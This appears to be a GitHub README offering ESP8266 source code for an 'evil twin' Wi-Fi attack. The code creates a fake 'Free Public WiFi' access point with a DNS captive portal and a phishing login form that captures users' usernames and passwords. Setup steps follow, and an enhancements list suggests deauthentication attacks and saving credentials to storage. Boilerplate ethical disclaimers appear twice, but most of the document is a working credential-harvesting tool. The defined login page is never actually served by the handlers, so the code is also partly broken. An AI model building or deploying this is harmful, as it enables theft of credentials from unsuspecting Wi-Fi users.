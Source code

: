 # Evil-Twin_Node_MCU



```bash
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>

// Configuration
const char* AP_SSID = "Free Public WiFi";  // Fake AP name
const char* REDIRECT_URL = "http://login.required";  // Phishing URL

const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 1, 1);
DNSServer dnsServer;
ESP8266WebServer webServer(80);

// HTML for captive portal
const char* loginPage = 
R"rawliteral(
<!DOCTYPE html>
<html>
<head>
<title>Network Login Required</title>
<style>
  body { font-family: Arial, sans-serif; background: #f0f0f0; }
  .container { background: white; width: 300px; margin: 100px auto; padding: 20px; border-radius: 5px; box-shadow: 0 0 10px rgba(0,0,0,0.1); }
  input { width: 100%; padding: 10px; margin: 8px 0; box-sizing: border-box; }
  button { background: #4CAF50; color: white; padding: 14px 20px; border: none; cursor: pointer; width: 100%; }
</style>
</head>
<body>
<div class="container">
  <h2>Network Login</h2>
  <p>Enter credentials to access Internet</p>
  <form action="/login" method="POST">
    <input type="text" name="username" placeholder="Username" required>
    <input type="password" name="password" placeholder="Password" required>
    <button type="submit">Login</button>
  </form>
</div>
</body>
</html>
)rawliteral";

void setup() {
  Serial.begin(115200);
  
  // Configure AP
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(apIP, apIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(AP_SSID);

  // Start DNS server (captive portal)
  dnsServer.start(DNS_PORT, "*", apIP);

  // Web server handlers
  webServer.on("/", handleRoot);
  webServer.on("/login", handleLogin);
  webServer.onNotFound(handleRoot);  // Redirect all requests
  webServer.begin();

  Serial.println("\nEvil Twin AP Running!");
  Serial.print("SSID: ");
  Serial.println(AP_SSID);
  Serial.print("IP: ");
  Serial.println(apIP);
}

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();
}

// Handle captive portal redirect
void handleRoot() {
  webServer.sendHeader("Location", REDIRECT_URL, true);
  webServer.send(302, "text/plain", "");
}

// Process captured credentials
void handleLogin() {
  String username = webServer.arg("username");
  String password = webServer.arg("password");
  
  Serial.println("\n[+] Credentials Captured!");
  Serial.print("Username: ");
  Serial.println(username);
  Serial.print("Password: ");
  Serial.println(password);

  // Redirect after capture
  webServer.sendHeader("Location", "http://example.com", true);
  webServer.send(302, "text/plain", "Login Successful");
}

// Not needed but included for clarity
void handleNotFound() {
  handleRoot();
}
```

## Note
>  - You can modify certain parameters in the code to fit your requirements:
>  - **Redirected URL:** Change the URL users are sent to after submitting credentials to match your test scenario.
>  - **SSID:** Set your own Wi-Fi network name to attract targets or for testing purposes.
>  - **DNS:** Adjust DNS settings if you want to redirect to a different captive portal or server.
>  - Make sure to update these variables in the source code before uploading to your NodeMCU device.

## Ethical Considerations
- **Legal Compliance:** Only test on your own networks
- **Disclosure:** Add disclaimer to login page in real tests
- **Data Handling:** Never store captured credentials permanently
- **Permissions:** Requires written consent for penetration testing

## Key Components

**Fake Access Point:**
- Creates Wi-Fi network with specified SSID
- Uses IP 192.168.1.1 for gateway

**Captive Portal:**
- DNS server redirects all domains to ESP
- Any HTTP request shows login page
- Professional-looking login form

**Credential Harvesting:**
- Captures username/password via POST
- Prints credentials to serial monitor
- Shows "success" redirect after submission

## Setup Instructions
- Upload code to NodeMCU
- Open Serial Monitor (115200 baud)
- Connect device to Free Public WiFi
- Attempt to browse any website
- Enter test credentials in login page
- Observe credentials in Serial Monitor

## Ethical Considerations
- **Legal Compliance:** Only test on your own networks
- **Disclosure:** Add disclaimer to login page in real tests
- **Data Handling:** Never store captured credentials permanently
- **Permissions:** Requires written consent for penetration testing

## Enhancements (Optional)
- Add EAP/TLS encryption simulation
- Implement WiFi deauthentication (requires external hardware)
- Add SSL/TLS (requires HTTPS library)
- Store credentials to SPIFFS/SD card
